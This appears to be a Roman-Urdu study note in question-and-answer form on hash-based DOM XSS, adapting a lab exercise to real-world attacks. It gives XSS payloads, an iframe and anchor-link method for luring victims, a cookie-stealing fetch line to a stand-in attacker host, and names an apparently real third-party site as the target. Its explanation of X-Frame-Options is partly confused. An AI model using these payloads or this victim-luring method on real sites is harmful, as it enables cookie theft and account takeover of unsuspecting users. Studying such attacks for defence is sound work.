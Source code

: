 # Yeh kis tarah ki technique thi 

### ✅ Q1: Real website pe exploit server nahi hota, to phir link kaise banayein?
🔍 Jawaab: Bilkul sahi — real world mein koi "exploit server" nahi hota. Wo sirf lab practice ke liye hota hai.

### 🔑 Lekin real world mein:
Tu apni khud ki malicious page bana ke link send karta hai — jaise:

- GitHub pages
- 000webhost
- Netlify
- Ngrok (for localhost)
- Ya apna hosted page

🎯 Target user ko tu aise URL deta hai:

```<iframe src="https://target.com/#<xss_payload>" onload="..."></iframe>```

Aur phir victim jaise hi tera page kholta hai, target.com pe tera payload execute hota hai.

---

### ✅ Q2: Kaise pata chalega ke hash (#) use ho raha hai aur payload daal sakte hain?

🔍 Jawaab: Tera process ye hoga:

URL dekho — agar #something dikh raha hai (hash), toh pehla clue mil gaya.

Example: ```https://example.com/#about```

View source ya Inspect → Sources / Elements / Script mein dekho:

Kya location.hash likha hua hai?

Kya yeh kisi sink (jQuery selector, innerHTML, document.write, etc.) mein jaa raha hai?

### Example:

```var section = location.hash;```
```$(section).addClass("highlight");```

Agar aisa code mil gaya, test karo:

URL mein try karo:

```#<img src=x onerror=alert(1)>```

Agar XSS chali gayi, to samajh ja hash-based DOM XSS hai.

Ab agar tu victim ko attack karna chahta hai silently, to:

iframe bana ke usme payload embed karta hai

Jaise is lab mein tha

---

### ✅ Q3: print() function kya hota hai aur real website pe kab use hota hai?
📄 JavaScript ka print() function:

Yeh browser ka built-in function hai

Jab call karo → print dialog open hota hai

Iska koi security threat nahi, bas ek proof hai ke XSS execute ho gaya

❗Real world mein:
Tum print() nahi doge

Tum alert(1) ya fir:

```document.cookie```
```document.location```
```fetch('https://your-site.com/log?cookie=' + document.cookie)```

jaise payloads doge jo data chura lein

🔥 Tu print() tab use karta hai:
Jab alert() block ho jaye kisi browser setting se

Ya jab lab ya CTF bolta ho “print() use karo”

---

### Q: Nhi ab jaisy yeh hai website beingguru.com iska link yeh bna doon ga
```<iframe src="https://beingguru.com/#<xss_payload>" onload="..."></iframe>```
too ab iss main meray page ka url kidhar hai yeh too main direct beingguru.com ko targer kr rha hoon?

### Jawab:
Tu apna payload jaisy ```https://beingguru.com/#<img src=x onerror=alert(1)>``` iframe ke zariye kisi dusri website (jaise beingguru.com) pe
bhej sakta hai  iss tarah ```<iframe src="https://beingguru.com/#<img src=x onerror=alert(1)>"></iframe>``` — lekin us iframe ko apni website
ya html file mein daalna zaroori hai. Wo jo HTML file tu banaega — wahi tera "exploit server" ban jaata hai real world mein. 
Uska link tu victim ko dega. Agar target site iframe allow karti hai aur hash ya search se XSS vulnerable hai, to payload execute ho jata hai.

Main apni website pr gya wahan HTML main aik link bnahea iss tarah

```<a href="https://beingguru.com/#<img src=x onerror=alert(1)>">Click here</a>``` ab yeh link webpage pr Click here ky naam sy show hoga jab victim Click here
pr click karega too wo beingguru.com website pr chala jaye ga or agr wo website vulnerable hue jaisy  X-Frame-Options: DENY ya SAMEORIGIN headers nahi lagaye hue hoe
too XSS chal jaye ga

---

### Real-World Tip for Pentesters:
Sabse pehle URL observe karo: #, ?, etc.

Inspect source: location.hash, location.search ka use ho raha hai ya nahi

Dekho: koi sink (innerHTML, jQuery selector, etc.) mein jaa raha hai ya nahi

Test payload: <img src=x onerror=alert(1)>

Agar kaam kar gaya → phir iframe ya anchor se exploit bana


